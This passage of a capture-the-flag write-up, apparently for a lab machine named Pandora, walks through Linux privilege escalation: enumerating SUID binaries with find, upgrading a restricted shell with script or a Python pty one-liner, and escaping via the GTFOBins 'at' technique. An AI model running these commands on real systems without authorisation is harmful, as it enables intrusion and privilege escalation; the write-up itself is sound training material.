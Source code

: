 Checking `sudo` returns a weird error
```
$ sudo -l
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```

So let's try to do the most basic Linux privilege escalation technique to break out of this restricted shell - using SUID binaries

We can simply find SUID binaries in the system using the following command:
```bash
find / -perm -u=s -type f 2>/dev/null
```

Which returns the following:
![](_attachments/pandora18.PNG)

`/usr/bin/pandora_backup` sounds interesting, also searching these binaries in [GTFOBins](https://gtfobins.github.io/) revealed that `/usr/bin/at` can potentially be used to break out of this restricted shell.

Upgrade to Bash first
```sh
SHELL=/bin/bash script -q /dev/null
```
or
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

We use the command provided by [GTFOBins](https://gtfobins.github.io/gtfobins/at/):
```bash
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```

You may have to upgrade the shell again, but you should now have a working `sudo`.
